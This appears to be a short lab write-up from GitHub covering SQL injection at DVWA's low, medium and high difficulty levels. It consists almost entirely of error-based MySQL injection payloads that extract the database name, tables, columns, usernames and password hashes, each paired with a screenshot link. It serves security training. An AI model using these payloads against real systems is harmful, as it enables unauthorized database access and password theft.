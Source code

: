 LOW LEVEL

Database name: %' and extractvalue('<a>xxx</a>', concat(':',database()))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/4b2cb28e-a77c-4753-a734-4c0305de18ba)

Table name: %' and extractvalue('<a>xxx</a>', concat(':',(select table_name from information_schema.tables where table_schema =database() limit 1, 1)))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/8acf8f08-8941-44e0-8120-2f5c2c5cf8fa)

Column name: %' and extractvalue('<a>xxx</a>', concat(':', (select column_name from information_schema.columns where table_name ="users" limit 3, 1)))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/bbf89c69-c3e5-4ceb-8cd4-1cb28f6c5e71)

User name: %' and extractvalue('<a>xxx</a>', concat(':',(select user from users limit 0, 1)))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/12d748a0-2166-4f9f-85e4-ea3ae88330c2)

Passwords: ' and extractvalue('<a></a>', concat((select password from users limit 0, 1)))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/da52046a-f7c4-432c-aa6c-728319065ce5)

MEDIUM LEVEL

Database name: 1 and (select 1 from (select count(*), concat(0x3a, 0x3a, (select database()), 0x3a, 0x3a, floor(rand()*2))a from information_schema.tables group by a)b) #

![image](https://github.com/nahcusira/dvwa/assets/87233531/f108438b-0c6a-4671-ab57-067b7fd8b4a1)

Table name: 1 and (select 1 from (select count(*), concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema =database() limit 1, 1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.tables group by a)b) #

![image](https://github.com/nahcusira/dvwa/assets/87233531/2a698f5b-db1e-4266-ba38-184072311342)

Column name: 1 and (select 1 from (select count(*), concat(0x3a, 0x3a, (select column_name from information_schema.columns where table_name = char(117,115,101,114,115) limit 4, 1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.tables group by a)b) #

![image](https://github.com/nahcusira/dvwa/assets/87233531/bb00cd12-151c-4762-b214-0afcb378cab5)

User name: 1 and (select 1 from (select count(*), concat(0x3a, 0x3a, (select user from users limit 0, 1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.tables group by a)b) #

![image](https://github.com/nahcusira/dvwa/assets/87233531/01eb9591-3929-4439-bea1-526823469250)

Passwords: 1 and (select 1 from (select count(*), concat(0x3a, 0x3a, (select password from users limit 0, 1), 0x3a, 0x3a, floor(rand()*2))a from information_schema.tables group by a)b) #

![image](https://github.com/nahcusira/dvwa/assets/87233531/6a2e4594-156c-40a9-90aa-495449ef2cdb)

HIGH LEVEL

Database name: %' and extractvalue('<a>xxx</a>', concat(':',database()))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/752ced8c-f1ca-4ae4-8112-21e35e02ef66)

Table name: %' and extractvalue('<a>xxx</a>', concat(':',(select table_name from information_schema.tables where table_schema =database() limit 1, 1)))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/de34abd2-0cd4-4945-bc04-97f2ecb32685)

Column name: %' and extractvalue('<a>xxx</a>', concat(':', (select column_name from information_schema.columns where table_name ="users" limit 3, 1)))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/cbb3e681-2c25-4ec6-8d69-c6ab5de94ae7)

User name: %' and extractvalue('<a>xxx</a>', concat(':',(select user from users limit 0, 1)))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/a1c05c1d-e488-40d7-93af-8d11f324c945)

Passwords: ' and extractvalue('<a></a>', concat((select password from users limit 0, 1)))#

![image](https://github.com/nahcusira/dvwa/assets/87233531/6c8e42b7-82ac-457d-94aa-231f8e8877ee)
